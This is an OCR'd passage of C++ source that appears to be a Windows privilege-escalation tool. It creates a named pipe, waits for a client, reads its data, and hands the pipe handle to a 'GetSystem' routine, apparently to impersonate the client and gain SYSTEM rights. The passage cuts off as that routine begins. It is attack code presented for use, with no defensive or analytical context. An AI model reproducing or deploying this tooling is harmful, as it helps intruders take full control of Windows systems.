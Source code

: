 ```c++
void _tmain(int argc, TCHAR* argv[])
{
    HANDLE hNamedPipe = NULL;
    LPCWSTR lpName = L"\\\\.\\pipe\\pipename";

    printf("[*] Creating named pipe and wait for connection.\n");

    hNamedPipe = CreateNamedPipe(
        lpName,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
        PIPE_UNLIMITED_INSTANCES,
        0,
        0,
        NMPWAIT_WAIT_FOREVER,
        0);

    if (hNamedPipe != INVALID_HANDLE_VALUE)
    {
        printf("[*] Created named pipe \\\\.\\pipe\\pipename succeeded.\n");
    }
    else
    {
        printf("[-] CreateNamedPipe() Error: %i.\n", GetLastError());
    }

    // waiting to be connected
    if (ConnectNamedPipe(hNamedPipe, NULL) != NULL)
    {
        printf("[*] The connection is successful, start receiving datas.\n");

        // Receive data from the server
        BOOL fSuccess = FALSE;
        DWORD len = 0;
        CHAR buffer[BUFSIZE];
        string revDatas = "";

        do
        {
            fSuccess = ReadFile(hNamedPipe, buffer, BUFSIZE * sizeof(char), &len, NULL);
            char buffer2[BUFSIZE + 1] = { 0 };
            memcpy(buffer2, buffer, len);
            revDatas.append(buffer2);
            if (!fSuccess || len < BUFSIZE)
            {
                break;
            }
        } while (true);
        cout << "[*] Received data:" << endl << revDatas.c_str() << endl << endl;

        GetSystem(hNamedPipe);
    }

    DisconnectNamedPipe(hNamedPipe);
    CloseHandle(hNamedPipe);
    printf("[*] Close named pipe.\n");
    system("pause");
}


void GetSystem(HANDLE hNamedPipe)
{
    STARTUPINFO si;
```